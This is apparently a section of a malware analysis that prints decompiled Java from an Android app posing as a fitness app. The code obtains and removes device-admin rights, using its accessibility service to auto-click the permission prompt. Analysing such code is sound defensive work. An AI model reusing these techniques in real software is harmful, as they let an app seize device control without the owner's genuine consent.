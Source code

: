 #### 2 - Admin Utils

It can add/remove itself as a device admin.

##### A- Getting Admin

```java
    public static boolean getAdmin(Context context) {
        if ("oppo".equalsIgnoreCase(Build.MANUFACTURER) || isAdminActive(context)) {
            return false;
        }
        Log("getAdmin", "Admin inactive");
        if (isScreenUnlocked(context) && isAccessibilityServiceEnabled(context, FitnessAccessibilityService.class)) {
            Intent intent = new Intent(context, AdminActivity.class);
            intent.putExtra("get", "true");
            intent.addFlags(268435456); // FLAG_ACTIVITY_NEW_TASK
            intent.addFlags(536870912); // FLAG_ACTIVITY_CLEAR_TOP
            intent.addFlags(1073741824); // FLAG_ACTIVITY_CLEAR_TASK AND FLAG_ACTIVITY_NEW_TASK
            intent.addFlags(8388608); // FLAG_RECEIVER_FOREGROUND
            context.startActivity(intent);
            Log("getAdmin", "Intent Started");
            return true;
        }
        return false;
    }
```

##### B- Remove Admin

```java
    public static boolean removeAdmin(Context context) {
        if (isAdminActive(context) && isScreenUnlocked(context) && isAccessibilityServiceEnabled(context, FitnessAccessibilityService.class)) {
            ((FitnessAccessibilityService) Objects.requireNonNull(App.getAccessibilityService())).runtimeActionsManager.add(new RuntimeAccessibilityActionRunner("clickAllowButtonNonBlocking"), UtilGlobal$$ExternalSyntheticLambda1.INSTANCE, "removeAdmin");
            Intent intent = new Intent(context, AdminActivity.class);
            intent.putExtra("get", "false");
            intent.addFlags(268435456); // FLAG_ACTIVITY_NEW_TASK
            intent.addFlags(536870912); // FLAG_ACTIVITY_CLEAR_TOP
            intent.addFlags(1073741824); // FLAG_ACTIVITY_CLEAR_TASK AND FLAG_ACTIVITY_NEW_TASK
            intent.addFlags(8388608); // FLAG_RECEIVER_FOREGROUND
            context.startActivity(intent);
            return true;
        }
        return false;
    }
```

##### C- Admin Check

```java
    public static boolean isAdminActive(Context context) {
        return ((DevicePolicyManager) context.getSystemService("device_policy")).isAdminActive(new ComponentName(context, AdminReceiver.class));
    }
```
